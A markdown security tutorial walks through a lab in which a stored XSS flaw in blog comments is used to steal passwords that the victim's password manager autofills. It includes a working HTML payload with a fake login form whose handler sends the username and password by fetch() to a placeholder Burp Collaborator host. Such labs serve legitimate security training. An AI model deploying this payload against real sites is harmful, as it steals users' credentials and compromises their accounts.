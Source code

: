 ## 🔐 Using Cross-Site Scripting to Steal Passwords

Nowadays, many users have password managers that automatically fill in their passwords. You can exploit this by creating a password input field, capturing the autofilled password, and sending it to your domain. This method avoids most issues associated with cookie theft and can even access any other account where the victim reused the same password.

The main limitation of this method is that it only works for users who have a password manager that performs autofill. (Of course, if the user doesn’t have a saved password, you can still attempt to obtain their password through a phishing attack on the site, but this is not quite the same.)

### 🔬 Example Lab: Stealing a Password Using XSS
This lab contains a stored XSS vulnerability in the blog comment function. A simulated victim user views all comments after they are posted. To solve this lab, exploit the vulnerability to steal the victim’s username and password, and then use these credentials to log into the victim’s account.

### Steps:

1. Navigate to any post and scroll down to the comment form:

   ![image](https://github.com/user-attachments/assets/3071b40a-9a9b-43c0-b3b4-017ccb49e5c2)

2. Submit the following payload in a blog comment, replacing the placeholder with your Burp Collaborator subdomain:

   ```html
   <form>
     <input type="text" name="username" id="username" autocomplete="username">
     <input type="password" name="password" autocomplete="current-password"
     onchange="if(this.value.length) {
       fetch('https://YOUR-COLLABORATOR-URL', {
         method: 'POST',
         mode: 'no-cors',
         body: 'username=' + encodeURIComponent(document.getElementById('username').value) +
               '&password=' + encodeURIComponent(this.value)
       });
     }">
   </form>
   ```

3. In the Collaborator, you will see the user’s credentials (username and password) in the HTTP request:

   ![image](https://github.com/user-attachments/assets/c239c04f-d60b-49ff-9700-ff5f4130ec6b)
